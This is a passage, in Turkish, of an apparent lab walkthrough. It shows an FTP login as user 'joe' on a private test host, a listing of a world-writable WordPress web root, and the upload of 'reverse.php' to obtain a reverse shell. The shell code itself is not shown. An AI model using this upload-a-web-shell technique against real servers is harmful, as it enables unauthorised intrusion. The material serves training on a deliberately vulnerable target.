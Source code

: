 ## 2. Erişim Sağlanması

Ftp servisine bağlanılır. Shell almak için web uygulamasının yer aldığı ***/var/www/html*** dizini geçilir, reverse shell almak için **joe** kullanıcısı yetkilerinde olan secret klasörüne dosya yüklenir.
```bash
ftp 192.168.56.106
```

```terminal
Connected to 192.168.56.106.
220 ProFTPD Server (Debian) [::ffff:192.168.56.106]
Name (192.168.56.106:barcode): joe
331 Password required for joe
Password:
230 User joe logged in
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> cd /var/www/html
250 CWD command successful
ftp> ls -lsa
200 PORT command successful
150 Opening ASCII mode data connection for file list
drwxrwxrwx   6 www-data www-data     4096 Jul 18 10:12 .
drwxr-xr-x   4 root     root         4096 Jun 19 11:18 ..
-rwxrwxrwx   1 www-data www-data    10918 Jun 19 11:16 default.htm
-rwxrwxrwx   1 www-data www-data      405 Jul 17 16:02 index.php
-rwxrwxrwx   1 www-data www-data    19915 Jul 17 16:02 license.txt
-rwxrwxrwx   1 www-data www-data     7278 Jul 17 16:02 readme.html
-rw-rw-r--   1 joe      joe            19 Jul 18 10:12 robots.txt
drwxrwxr-x   2 joe      joe          4096 Jul 18 10:05 secret
-rwxrwxrwx   1 www-data www-data     6912 Jul 17 16:02 wp-activate.php
drwxrwxrwx   9 www-data www-data     4096 Jul 17 16:02 wp-admin
-rwxrwxrwx   1 www-data www-data      351 Jul 17 16:02 wp-blog-header.php
-rwxrwxrwx   1 www-data www-data     2332 Jul 17 16:02 wp-comments-post.php
-rwxrwxrwx   1 www-data www-data     3047 Jun 19 11:28 wp-config.php
-rwxrwxrwx   1 www-data www-data     2913 Jul 17 16:02 wp-config-sample.php
drwxrwxrwx   6 www-data www-data     4096 Jul 18 08:44 wp-content
-rwxrwxrwx   1 www-data www-data     3940 Jul 17 16:02 wp-cron.php
drwxrwxrwx  21 www-data www-data    12288 Jul 17 16:02 wp-includes
-rwxrwxrwx   1 www-data www-data     2496 Jul 17 16:02 wp-links-opml.php
-rwxrwxrwx   1 www-data www-data     3300 Jul 17 16:02 wp-load.php
-rwxrwxrwx   1 www-data www-data    47874 Jul 17 16:02 wp-login.php
-rwxrwxrwx   1 www-data www-data     8509 Jul 17 16:02 wp-mail.php
-rwxrwxrwx   1 www-data www-data    19396 Jul 17 16:02 wp-settings.php
-rwxrwxrwx   1 www-data www-data    31111 Jul 17 16:02 wp-signup.php
-rwxrwxrwx   1 www-data www-data     4755 Jul 17 16:02 wp-trackback.php
-rwxrwxrwx   1 www-data www-data     3133 Jul 17 16:02 xmlrpc.php
226 Transfer complete
ftp> cd secret
250 CWD command successful
ftp> put reverse.php
local: reverse.php remote: reverse.php
200 PORT command successful
150 Opening BINARY mode data connection for reverse.php
226 Transfer complete
3475 bytes sent in 0.00 secs (11.3494 MB/s)
ftp> ls -lsa
200 PORT command successful
150 Opening ASCII mode data connection for file list
drwxrwxr-x   2 joe      joe          4096 Sep 22 13:59 .
drwxrwxrwx   6 www-data www-data     4096 Jul 18 10:12 ..
-rw-rw-r--   1 joe      joe            30 Jul 18 10:05 index.html
-rw-r--r--   1 joe      joe          3475 Sep -22 13:59 reverse.php
```